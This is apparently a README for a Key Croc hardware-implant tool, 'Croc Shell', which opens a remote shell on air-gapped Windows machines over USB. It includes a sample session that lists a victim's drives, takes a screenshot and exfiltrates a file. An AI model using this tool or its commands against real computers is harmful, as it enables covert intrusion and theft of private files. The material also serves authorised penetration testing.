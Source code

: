 # Key Croc Tools

### Croc Shell

Allows the Croc to establish a reverse-shell on air-gapped systems. The Croc will act in `ATTACKMODE HID STORAGE` to collect the output of the commands and loot.

	root@croc:~# python udisk/tools/crocshell_via_storage.py 
	Starting the shell ...
	CrocSHELL> D:

	CrocSHELL> ls
	Verzeichnis: D:\


	Mode                 LastWriteTime         Length Name                                        
	----                 -------------         ------ ----                                        
	d-----        19.01.2023     09:32                000_BreachCompilation                       
	d-----        03.12.2022     22:36                3CX                                         
	d-----        26.01.2022     08:09                Blog                                        
	d-----        03.04.2022     12:26                Combs_1                                     
	d-----        25.01.2022     15:29                DFL                                         
	d-----        26.01.2022     00:30                DFLTask                                     
	d-----        10.02.2022     13:39                Honor 8S                                    
	d-----        23.10.2016     08:52                plaso-1.5.1                                 
	d-----        26.01.2022     07:53                ZZZ_FONTS                                   
	-a----        04.05.2023     09:57         487556 173.jpg                                     
	-a----        04.05.2023     10:12         206541 173.mp3                                     
	-a----        04.05.2023     13:44        1415029 173.mp4                                     
	-a----        25.01.2023     20:11           5050 banner.txt                                  
	-a----        17.02.2022     14:08     1994995712 paladin_edge_64.iso                         
	-a----        03.07.2022     09:27        1577592 WordRepair.exe                              
	CrocSHELL> L:

	CrocSHELL> ls
	Verzeichnis: L:\


	Mode                 LastWriteTime         Length Name                                        
	----                 -------------         ------ ----                                        
	d-----        14.07.2021     12:14                CDFE                                        
	d-----        12.01.2022     16:12                CDFP                                        
	d-----        13.08.2020     08:33                DFL Manuals                                 
	d-----        20.03.2020     14:01                JPG_Hi_Res                                  
	d-----        10.06.2021     18:38                PaWASP                                      
	d-----        11.02.2023     13:50                UnFOUNDchk                                  
	------        21.08.2021     20:06         126205 20210821_200626_FLASH_25010.dat.gz          
	------        20.10.2020     15:35          90539 5c21487e-3812-4498-b66a-eafe679bc4c8.jpg    
	------        01.04.2021     11:16         144368 7a39a04273-9fc4-4e18-b256-9c489b9c6a1c.jpeg 
	------        01.04.2021     11:16         128311 7a61adbd-8e52-4bad-9203-fc842d4069d2.jpeg   
	------        04.11.2020     18:52         627966 hddsuperclone_2.2.18-1_amd64.deb            
	------        27.04.2023     15:33          70553 PawnP1_01.png                               
	------        27.04.2023     15:51          19861 Pawnp1_02.png                               

	CrocSHELL> peek
	E:\screenshot_5.jpg ... saved

	CrocSHELL> exfil PawnP1_01.png

	CrocSHELL> help

	AVIALABLE COMMANDS:
	--------------------
	exit .... End shell 
	exfil ... Exfiltrate file - e.g.: exfil my_secret_passwords.docx
	peek .... Take a screenshot

	CrocSHELL> exit
	root@croc:~# 